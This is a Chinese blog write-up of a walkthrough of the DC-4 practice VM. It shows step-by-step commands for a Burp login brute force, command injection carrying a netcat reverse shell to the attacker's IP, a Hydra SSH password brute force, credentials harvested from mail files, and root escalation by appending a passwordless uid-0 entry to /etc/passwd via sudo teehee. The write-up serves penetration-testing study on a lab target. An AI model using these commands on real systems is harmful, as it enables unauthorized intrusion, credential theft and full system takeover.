




记录一下DC靶机系列的漏洞，本次学习的是DC-4，涉及bp爆破，反弹shell，ssh爆破，以及teehee的提权
bp爆破
本次渗透只涉及一个flag：
查看一下目标靶机的mac地址：
arp扫描靶机的ip地址：
1 | arp-scan -l |
登录下web端，发现需要账号密码：
看到登录页面，思路一：sql注入，二：爆破账号密码；先使用sqlmap尝试注入
1 | sqlmap -u 192.168.130.144 --data="usernamep=a&password=a" |
注不出来，尝试弱口令爆破
因为bp自带的账号和密码字典对应总次数高达三百万，所以账号名先测试admin，密码用字典尝试
账号密码：admin/happy
反弹shell
登陆后发现可以执行一些命令：

抓包后修改radio的参数为反弹shell的命令，同时我们开启监听：
1 | nc+192.168.130.128+4444+-e+/bin/bash |
成功拿到shell
ssh爆破
执行下面的命令，切换到交互式shell
1 | python -c "import pty;pty.spawn('/bin/bash')" |
经过一番搜索，发现有三个用户：Charles，jim和sam，在jim的目录下发现一个备份文件夹，里面是一个旧密码文件：
1 | ls /home |
把这些密码打包成一个文件，进行ssh爆破jim的密码：
1 | hydra -l jim -P passwd.txt 192.168.130.144 ssh |
爆破出ssh密码：jim—jibril04
然后登录：
1 | ssh jim@192.168.130.144 |
然后发现有个邮箱文件：
1 | ls |

切换到/var/spool/mail，查看所有邮箱信息：发现有一封Charles给jim的邮件，里面还有Charles的密码
1 | cd /var/spool/mail |
Charles—^xHhA&hvim0y
这里用Charles进行ssh登录，但一直不对，结果用户名第一个字母要小写：charles
1 | ssh charles@192.168.130.144 |

teehee提权
查看该用户拥有的root权限命令
1 | sudo -l |

有一个teehee命令，之前一直没听说过，正好学习一下
teehee是个小众的linux编辑器。如果有sudo权限。可以利用其来提权，核心思路就是利用其在passwd文件中追加一条uid为0的用户条目；按照linux用户机制，如果没有shadow条目，且passwd用户密码条目为空的时候，可以本地直接su空密码登录。所以只需要执行su 用户名就可以登录到该用户，这个用户因为uid为0，所以也是root权限
1 | echo "zh1yu::0:0:::/bin/bash" | sudo teehee -a /etc/passwd |
最后就是寻找flag文件
1 | find / -name flag* |
参考文章：https://blog.csdn.net/a310034188/article/details/123192398
https://www.cnblogs.com/zlgxzswjy/p/16118468.html
纵使困顿难行，亦当砥砺奋进